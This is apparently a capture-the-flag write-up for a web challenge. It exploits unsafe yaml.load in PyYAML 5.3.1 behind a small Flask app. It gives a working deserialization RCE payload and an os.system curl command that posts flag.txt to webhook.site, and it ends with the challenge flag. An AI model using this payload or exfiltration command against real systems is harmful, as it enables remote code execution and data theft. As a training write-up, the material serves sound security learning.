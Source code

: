 ```yaml
---
ai_date: 2025-04-27 05:10:32
ai_summary: Exploited YAML deserialization vulnerability (RCE) in PyYAML 5.3.1 for remote code execution, using a crafted payload.
ai_tags:
  - yaml
  - rce
  - deserialization
created: 2021-12-21T23:50
updated: 2025-07-14T09:46
---
```


## Espace 0

The hardest challenge of the web category, but was actually solved before Login Part 0 since my brain was dead

> You've used espace2, but what about espace0?
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4210/

As before the source, `main.py` was given

```python
from flask import Flask, request, render_template, Response
import yaml

app = Flask(__name__)
assert yaml.__version__ == "5.3.1"

@app.route("/")
def index():
    return render_template("./index.html")
    
@app.route("/", methods=["POST"])
def welcome():
    student_data = request.form.get("student_data")
    if not student_data:
        return Response("Please specify some data in YAML format", mimetype='text/plain')
    student_data = yaml.load(student_data)
    required_fields = ["id","name","class"]
    if type(student_data) != dict or "student" not in student_data or any(x not in student_data["student"] for x in required_fields):
        return Response("Malformed data. Please try again.", mimetype='text/plain')
    student = student_data["student"]
    return f"<h1>Welcome, {student['name']} ({student['id']})</h1> <br>Your class is <b>{student['class']}</b>"
```

There are no obvious vulunerabilities to this file.

But the `assert yaml.__version__ == "5.3.1"` part is quite suspicious.

A quite google search with keywords `pyyaml 5.3.1 vulnerabilities` leads us to `https://security.snyk.io/vuln/SNYK-PYTHON-PYYAML-590151`, a 9.8 scored RCE.

Conviniently a `uiuctf` writeup was included that explained how the exploit worked. https://hackmd.io/@harrier/uiuctf20

Apparently it was a zero day vulunrability used in a CTF, what a chad move. We can simply take their payload and use it here as google is allowed in CTFs.

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ 'PAYLOAD_HERE' ]]]`

### Sending the payload

`!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ '__import__("os").system("curl -X POST --data-binary @flag.txt https://webhook.site")' ]]]`

![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221164628024.png)

And after checking webhook.site for the recieved curl request

```flag
flag{yet_another_mal-coded_library}
```

Flag obtained